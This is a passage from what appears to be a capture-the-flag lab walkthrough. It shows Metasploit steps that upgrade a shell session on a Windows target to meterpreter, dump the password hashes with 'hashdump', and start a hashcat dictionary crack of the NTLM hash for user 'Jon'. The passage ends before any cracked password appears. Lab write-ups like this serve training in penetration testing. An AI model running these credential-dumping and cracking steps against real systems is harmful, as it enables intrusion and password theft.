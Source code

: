 post/multi/manage/shell_to_meterpreter
Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

Name Current Setting Required Description

HANDLER true yes Start an exploit/multi/handler to receive the connection LHOST no IP of host that will receive the connection from the payload (Will try to auto detect). LPORT 4433 yes Port for payload to connect to. SESSION yes The session to run this module on.

Set the required option, you may need to list all of the sessions to find your target here.
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
Id Name Type Information Connection

1 shell x64/windows 10.2.60.96:4444 -> 10.10.233.113:49214 (10.10.233.113)

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1 SESSION => 1

SESSION
Cracking
Within our elevated meterpreter shell, run the command ‘hashdump’.
This will dump all of the passwords on the machine as long as we have the correct privileges to do so.
What is the name of the non-default user?
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

Jon
Copy this password hash to a file and research how to crack it. What is the cracked password?
❯ hashcat -a 0 -m 1000 crack.txt /usr/share/wordlists/rockyou.txt hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
Device #1: pthread-Intel(R) Core(TM) i3-6006U CPU @ 2.00GHz, 2726/2790 MB (1024 MB allocatable), 4MCU
Minimum password length supported by kernel: 0 Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates Rules: 1

Applicable optimizers applied:

Zero-Byte
Early-Skip
Not-Salted
Not-Iterated
Single-Hash
Single-Salt
Raw-Hash
ATTENTION! Pure (unoptimized) backend kernels selected. Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance. If you want to switch to optimized backend kernels, append -O to your commandline. See the above message to find out about the exact limits.
